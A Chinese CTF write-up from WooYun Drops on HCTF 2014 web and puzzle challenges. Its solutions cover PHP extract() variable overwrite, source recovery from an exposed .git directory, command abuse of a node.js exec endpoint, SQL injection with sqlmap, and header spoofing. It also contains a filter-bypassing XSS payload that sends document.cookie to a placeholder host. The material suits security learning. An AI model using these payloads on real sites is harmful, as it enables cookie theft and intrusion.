




# HCTF writeup(web)

2014/11/29 16:47 | [蓝冰](http://drops.wooyun.org/author/蓝冰 "由 蓝冰 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

**丘比龙的最爱 10pt**

传说，丘比龙是丘比特的弟弟，丘比龙是一只小爱神，虽然有两只翅膀，但因为吃多了，导致身体太胖，所以飞不起来~那么问题来了?!丘比龙吃什么食物吃多了变胖了

很明显了,百度一下答案是甜甜圈

**nvshen 100pt**

猫流大大发现一个女神，你能告诉我女神的名字么（名字即是 flag） 下载 zip 后是一个疑似 base64 的密文,用 base64 解密后发现 png 图片头 后缀改为 png


图片放到百度识图 得到名字

```
flag:爱新觉罗启星 
```

**GIFT 100pt**

打开网站 在注释处发现一个文件 index.php.bak 内容为

```
<?php
$flag=‘xxx';
extract($_GET);
if(isset($gift))
{
$content=trim(file_get_contents($flag));
if($gift==$content)
{
echo’hctf{...}';
}
else
{
echo’Oh..';
}
}
?> 
```

构造如下 URL:

```
http://121.40.86.166:39099/index.php?gift=&flag= 
```

覆盖掉 flag 变量

```
flag: hctf{Awe3ome_Ex7ract!!!} 
```

**Entry 200pt**

57R9S980RNOS49973S757PQO9S80Q36P 听说丘比龙一口气能吃”13”个甜甜圈呢!

刚开始各种进制转换,后来注意道 13 这个数字,刚好密文处是 13 个字母,于是把字母转成 ASCII 然后加 13 后转字符,然后插到原来的位置,最后 cmd5 解密

```
flag: Qoobee 
```

**FIND 200pt**

把图片下载下来用 Stegsolve 神器在随机图层发现二维码,把二维码修复一下 白色的改成黑色的 黑色的改成白色的 然后扫一下就出来 flag 了


**flag{hctf_3xF$235#\x5e3}**

**IRC 300pt**

进入官方 IRC 频道,挨个找人 whois

命令 /whois xxx(昵称) 其中有几个人反弹了 flag 提交几个后终于正确了



**opensource 300pt**

开源？闭源？

在 robots.txt 文件下发现 .git 隐藏目录 根据 git 说明 得到分支文件

```
refs/heads/master 
```

下载后得到 hash 值 e52b59bc730f13d999b1f2452ca3f689850ca0a3

然后进入 e5/目录访问 2b59bc730f13d999b1f2452ca3f689850ca0a3 文件 hash 前二位目录 后 32 位文件名 详情可以去百度看一下 git 的目录结构 依此类推 配合 (git cat-file -p 接 40 位 hash )命令 读取项目文件 是当前网站的源代码 node.js

部分代码:

```
// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'jade');

app.use(favicon());
app.use(logger('dev'));
app.use(bodyParser.json());
app.use(bodyParser.urlencoded());
app.use(cookieParser());

app.use('/', routes);
app.use('/ac6555bfe23f5fe7e98fdcc0cd5f2451', pangci);
—————————————————————————————-

var express = require('express');
var router = express.Router();
var fs = require('fs');
var path = require('path');
var cp = require('child_process');

router.get('/', function(req, res) {
  var data = path.normalize('/tmp/flag');

  if (req.param('pangci')) {
    cp.exec(secure(req.param('pangci')) + ' ' + data, function (err, stdout, stderr) {
      if (err) { res.end('Ohhhhh MY SWEET!!!YOOOOOO HURT ME!!') }
      var limit = stdout.split('\n').slice(0, 5).join('\n');
      res.end(limit);
    });
  } else {
    res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
  }

});

function secure (str) {
  return str.replace(/[^\d\-a-zA-Z ]/g, '');
} 
```

访问

```
/ac6555bfe23f5fe7e98fdcc0cd5f2451?pangci=wc 
```

返回

```
142   735 11507 /tmp/flag 
```

表示有 142 行

利用 tail -n num 命令 一次读取 5 行

最后进行拼接得到 flag



**FUCKME 350pt**

打开网页各种语种,想到用词频分析进行解密,利用软件统计频率前 26 个字 用记事本或者脚本替换成 26 个英文字母 然后用下面这个网站进行解密

http://www.quipqiup.com/index.php

```
flag:hctf{enjoyyourselfinhctf} 
```

**jianshu 400pt**

这题有点坑,首先比较轻松的 xss 到了 cookie,

```
<svg><scscriptript>window.locatioonn=“http://xxx.com/cookie.php?cookie=“%26%2343%3Bescape(document.cookie);</scscriptript></svg> 
```

然后 cookie 里确实有 flag flag=NOT IN COOKIE 尝试提交这个不对 然后在 cookie.php 进行修改 获取客户端的 http 头信息

```
Referer: http://121.41.37.11:25045/get.php?user=V1ew
X-Forwarded-For: 218.75.123.186 
```

伪造 http 头访问改 url 还是没有发现 cookie 然后据说不是 xss 是 sql 注入 然后各种参数,各种注

然后最后的注入的点为;

```
http://121.41.37.11:25045/img.php?file=1*.jpg 
```

之前尝试了整个 file 参数发现注不了,其实是要注.jpg 前面的值

```
sqlmap —level 6 —dbs 
```

跑出数据库



访问

```
http://121.41.37.11:25045/get.php?user=A1rB4s1C 
```

提示 IP 不对 用之前 X 到的 IP 进行伪造 最后返回 flag

```
flag: hctf{Why_are_U_S0_DIA0?????} 
```



版权声明：未经授权禁止转载 [蓝冰](http://drops.wooyun.org/author/蓝冰 "由 蓝冰 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Codeigniter 利用加密 Key（密钥）的对象注入漏洞](http://drops.wooyun.org/papers/1449)
*   [DNS 泛解析与内容投毒，XSS 漏洞以及证书验证的那些事](http://drops.wooyun.org/tips/1354)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [360hackgame writeup](http://drops.wooyun.org/tips/1666)
*   [CVE-2014-0038 内核漏洞原理与本地提权利用代码实现分析](http://drops.wooyun.org/papers/3795)
*   [分析下难得一见的 ROR 的 RCE（CVE－2013－0156）](http://drops.wooyun.org/papers/61)